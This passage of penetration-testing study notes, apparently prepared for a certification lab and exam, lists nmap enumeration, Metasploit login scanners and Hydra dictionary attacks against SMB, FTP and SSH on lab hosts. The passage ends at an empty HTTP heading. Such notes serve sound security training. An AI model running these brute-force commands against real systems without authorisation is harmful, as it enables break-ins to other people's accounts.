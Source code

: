             **Dictionary Attack**
            
            - `nmap -Pn -sV 192.174.58.3`
            - `msfconsole`
            - `use auxiliary/scanner/smb/smb_login`
            - `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt`
            - `set SMBUser jane` - Known already specified in the lab description, will not be same in the exam
            - `set RHOSTS 192.174.58.3`
            - `exploit`
            
            **Hydra**
            
            - `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.174.58.3 smb`
        - FTP
            
            FTP (**File Transfer Protocol**) - a client-server protocol used to transfer files between a network using TCP/UDP connections. Default FTP port is **21**, opened when FTP is activated for sharing data.
            
            - `nmap -p21 -sV -sC -O 192.217.238.3`
            - Try Anonymous login `ftp 192.217.238.3` - failed
            - `hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp`- hydra brute force
            - `nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3` - nmap to brute password
            - `nmap --script ftp-anon -p21 192.119.169.3` - nmap anonymous login script
        - SSH
            
            SSH (**Secure Shell Protocol)** - a cryptographic network protocol for operating network services securely over an unsecured network, based on a client-server model. Default SSH TCP port is **22**.
            
            - `nmap -p22 -sV -sC -O 192.8.3.3`
            - `nc 192.8.3.3 22` - Banner grabbing
            - `ssh [root@192.8.3.3](<mailto:root@192.8.3.3>) 22`
            - `nmap --script ssh2-enum-algos 192.8.3.3` - nmap enum-alogo script
            - `nmap --script ssh-hostkey --script-args ssh_hostkey=full 192.8.3.3` - nmap ssh hostkey script
            - `nmap -p22 --script ssh-auth-methods --script-args="ssh.user=student" 192.8.3.3` - nmap ssh auth method scripts
            - `ssh student@192.8.3.3`
            
            **Dictionary Attack**
            
            - `hydra -l student -P /usr/share/wordlists/rockyou.txt 192.230.83.3 ssh`
            - `nmap -p22 --script=ssh-brute --script-args userdb=/root/users 192.230.83.3`
            - Msfconsole
                - `use auxiliary/scanner/ssh/ssh_login`
                - `set RHOSTS 192.230.83.3`
                - `set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt`
                - `set STOP_ON_SUCCESS true`
                - `set VERBOSE true`
                - `exploit`
        - HTTP
            
            HTTP (**Hyper Text Transfer Protocol**) - a client-server application layer protocol, used to load web pages using hypertext links. Default HTTP port is **80** and HTTPS port is **443.**
            